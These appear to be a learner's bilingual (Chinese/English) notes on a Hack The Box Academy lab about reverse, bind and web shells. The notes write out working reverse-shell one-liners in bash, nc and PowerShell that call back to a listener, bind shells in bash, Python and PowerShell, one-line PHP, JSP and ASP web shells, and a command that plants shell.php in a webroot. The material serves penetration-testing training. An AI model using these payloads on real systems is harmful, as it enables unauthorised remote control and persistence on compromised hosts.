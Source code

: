 # Types of Shells 
https://academy.hackthebox.com/module/77/section/725

![alt text](image.png)

## Reverse Shell  反向 Shell
反向 Shell（Reverse Shell）是最常見的一種類型，因為它是取得對被攻陷主機控制權最迅速且最簡單的方法。一旦我們在遠端主機上發現可以進行遠端程式碼執行（RCE）的漏洞，就可以在我們自己的機器上啟動一個 Netcat 監聽器，監聽特定的埠號，例如 1234。

當監聽器設置完成後，我們就可以在遠端主機上執行一條反向 Shell 指令，讓該主機的 Shell（例如 Bash 或 PowerShell）主動連線回我們的 Netcat 監聽器，進而建立一個來自遠端系統的反向連線，讓我們得以控制該系統。

## Netcat Listener  Netcat 監聽器
![alt text](image-1.png)

```
Coconut820@htb[/htb]$ nc -lvnp 1234

listening on [any] 1234 ...
```

## Connect Back IP

###  find our IP
```
Coconut820@htb[/htb]$ ip a

...SNIP...

3: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 500
    link/none
    inet 10.10.10.10/23 scope global tun0
...SNIP...
```
the IP we are interested in is under tun0
>[!Note]
> 我們連接到「tun0」中的 IP，因為我們只能透過 VPN 連接連接到 HackTheBox 盒，因為它們沒有網路連接，因此無法使用「eth0」透過網路連接到我們。在真正的滲透測試中，您可能直接連接到同一個網絡，或執行外部滲透測試，因此您可以透過「eth0」適配器或類似裝置進行連接。


## Reverse Shell Command  反向 Shell 指令

我們執行的命令取決於受感染主機運行的作業系統，即 Linux 或 Windows，以及我們可以存取哪些應用程式和命令。 Payload All The Things 頁面有一個我們可以使用的反向 shell 命令的綜合列表，這些命令涵蓋了根據我們受感染的主機而定的各種選項。
[Payload All The Things](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/)

```bash
# bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'

or 

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

```powershell
# poewrshell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

反向連線成功後 netcat listener 中會收到連線：
```
Coconut820@htb[/htb]$ nc -lvnp 1234

listening on [any] 1234 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.1] 41572

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

>[!Note]
當我們想要快速、可靠地連接到受感染的主機時， Reverse Shell 非常方便。然而， Reverse Shell 可能非常脆弱。一旦反向 shell 命令停止，或者我們因任何原因失去連接，我們就必須使用初始漏洞再次執行反向 shell 命令來重新獲得存取權限。

### Bind Shell  綁定 Shell
另一種類型的 shell 是 Bind Shell 。與連接到我們的 Reverse Shell 不同，我們必須在 targets' 監聽連接埠上連接到它。

執行 Bind Shell Command 後，它將開始監聽遠端主機上的端口，並將該主機的 shell（即 Bash 或 PowerShell ）綁定到該端口。我們必須使用 netcat 連接到該端口，然後我們將透過該系統上的 shell 取得控制權。

```bash
# bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

```python
# python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

```powershell
# powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

一旦我們執行 bind shell 命令，我們應該在指定的連接埠上有一個等待我們的 shell。現在我們就可以連接到它了。

使用 netcat 連接到該連接埠並獲得與 shell 的連接：
```
Coconut820@htb[/htb]$ nc 10.10.10.1 1234

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

>[!Note]
我們可以看到，我們直接進入了 bash 會話，並且可以直接與目標系統互動。與 Reverse Shell 不同，如果我們因任何原因斷開與綁定 Shell 的連接，我們可以重新連接並立即獲得另一個連接。但是，如果由於任何原因停止了 bind shell 命令，或者重新啟動了遠端主機，我們仍然會失去對遠端主機的存取權限，並且必須再次利用它來獲得存取權限。

## Upgrading TTY  升級 TTY
當我們透過 Netcat 取得一個 shell 連線後，會發現我們只能輸入指令或使用 Backspace，但無法左右移動游標來編輯命令，也無法上下切換以存取歷史指令。為了能夠做到這些操作，我們需要將這個 shell 升級成 TTY（終端機介面）。這可以透過將我們本地的 TTY 終端與遠端的 TTY 進行映射來實現。

使用 python/stty :
```python
Coconut820@htb[/htb]$ python -c 'import pty; pty.spawn("/bin/bash")'
```

執行此命令後，我們將按 ctrl+z 將 shell 返回後台並返回到本機終端，然後輸入以下 stty 命令

```
www-data@remotehost$ ^Z

Coconut820@htb[/htb]$ stty raw -echo
Coconut820@htb[/htb]$ fg

[Enter]
[Enter]
www-data@remotehost$
```
一旦我們按下 **fg** 鍵，它就會將我們的 netcat shell 帶回前台。此時終端將顯示一個空白行。我們可以再次按 enter 返回到我們的 shell 或輸入 reset 並按回車鍵將其恢復。此時，我們將擁有一個功能齊全的 TTY shell，其中包含命令歷史記錄和其他所有內容。

我們可能會注意到我們的 shell 沒有覆蓋整個終端。為了解決這個問題，我們需要找出一些變數。我們可以在系統上打開另一個終端機窗口，最大化窗口或使用我們想要的任何大小，然後輸入以下命令來獲取我們的變數：
```
Coconut820@htb[/htb]$ echo $TERM

xterm-256color
```
```
Coconut820@htb[/htb]$ stty size

67 318
```
第一個指令向我們顯示了 TERM 變量，第二個指令分別向我們顯示了 rows 和 columns 的值。現在我們有了變量，我們可以回到 netcat shell 並使用以下命令來更正它們：
```
www-data@remotehost$ export TERM=xterm-256color

www-data@remotehost$ stty rows 67 columns 318
```

一旦我們這樣做，我們應該有一個使用終端全部功能的 netcat shell，就像 SSH 連線一樣。

## Web Shell
我們擁有的最後一種類型的 shell 是 Web Shell 。 Web Shell 通常是一個 Web 腳本，即 PHP 或 ASPX ，它透過 HTTP 請求參數（如 GET 或 POST 請求參數）接受我們的命令，執行我們的命令，並將其輸出列印回網頁上。

首先，我們需要編寫我們的 Web shell，它將通過 GET 請求獲取我們的命令，執行它，並列印其輸出。Web shell 腳本通常是非常短且易於記住的單行腳本。以下是一些常見的常見 Web 語言短 Web Shell 腳本
```php
# php
<?php system($_REQUEST["cmd"]); ?>
```

```js
# javasceipt
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

```asp
#  asp
<% eval request("cmd") %>Í
```
<hr/>
常見 Web 伺服器的預設 webroot
![alt text](image-3.png)

如果我們正在攻擊運行 Apache 的 Linux 主機，我們可以使用以下命令編寫 PHP shell：
```bash
# bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

編寫 Web shell 後，我們可以通過瀏覽器或使用 cURL 訪問它。我們可以訪問受感染網站上的 shell.php 頁面，並使用 ？cmd=id 執行 id 命令：
![alt text](image-5.png)

## or **Use curl**
```
Coconut820@htb[/htb]$ curl http://SERVER_IP:PORT/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

我們可以不斷更改命令以獲取其輸出。Web Shell 的一大好處是它可以繞過任何現有的防火牆限制，因為它不會在埠上打開新連接，而是在 80 或 443 上的 Web 埠上運行，或者 Web 應用程式使用的任何埠。另外，如果重新啟動受感染的主機，Web Shell 仍然存在，我們可以訪問它並獲得命令執行，而無需再次利用遠端主機。

Web shell 不像 reverse shell 和 bind shell 那樣具有互動性，因為我們必須不斷請求不同的 URL 來執行我們的命令。儘管如此，在極端情況下，可以編寫一個 Python 腳本來自動化此過程，並在我們的終端中為我們提供一個半互動式 Web shell。